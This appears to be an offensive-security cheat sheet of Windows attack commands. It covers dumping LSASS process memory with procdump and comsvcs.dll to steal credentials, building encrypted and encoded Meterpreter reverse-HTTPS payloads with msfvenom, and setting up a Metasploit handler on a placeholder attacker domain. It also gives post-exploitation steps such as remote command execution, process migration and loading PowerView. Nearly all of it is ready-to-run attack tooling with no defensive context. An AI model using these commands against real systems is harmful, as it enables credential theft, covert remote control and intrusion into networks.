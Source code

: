 ## Dump
```
prcodump64.exe -accepteula -64 -ma <processname_or_pid> <output.dmp>
TaskMgr : righ-click : "Create dump file"
comsvcs.dll dump process
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <PID> C:\temp\lsass.dmp full
```
## MSFVenom : Windows x64 Stageless
```
msfvenom -p windows/x64/meterpreter_reverse_https lhost=eth0 lport=443  -f <format> -o <output_file> --encrypt=<type> --encrypt-key "<key>" -e <encoder> -i <iterations>
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.1.131 LPORT=443 -f raw -o shellcode.raw --encrypt=xor --encrypt-key "\x22" 
```
## MSFVenom : Windows x64 Staged
```
msfvenom -p windows/x64/meterpreter/reverse_https lport=443 lhost=<host> -f <format> -o <output_file> -e <encoder> -i <iterations>
```
## Meterpreter Stageless Listener with SSL cert + disable autoloadstdapi
```
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_https
set lport 443
set lhost evilcorp.com
set exitonsession false
set EnableStageEncoding true    # use with Staged
set stageencoder x64/xor        # use with Staged
set stageencodingfallback false # use with Staged
set stagerverifysslcert true
set HANDLERSSLCERT /evilcorp-msf-cert.pem
set autoloadstdapi false
set verbose true

run -j
```
## Meterpreter : exec command
```
execute -i -f <command_on_remote_host> -a <arguments>
execute -i nslookup -a hostname
```

## Meterpreter : migrate to process NAME
```
migrate -N <process_name>
```
## Meterpreter : list x64 process only
```
ps -A x64
```
## Meterpreter : import PS1 script
```
load powershell
powershell_import /root/tools/PowerView.ps1
powershell_execute Get-NetDomain
```
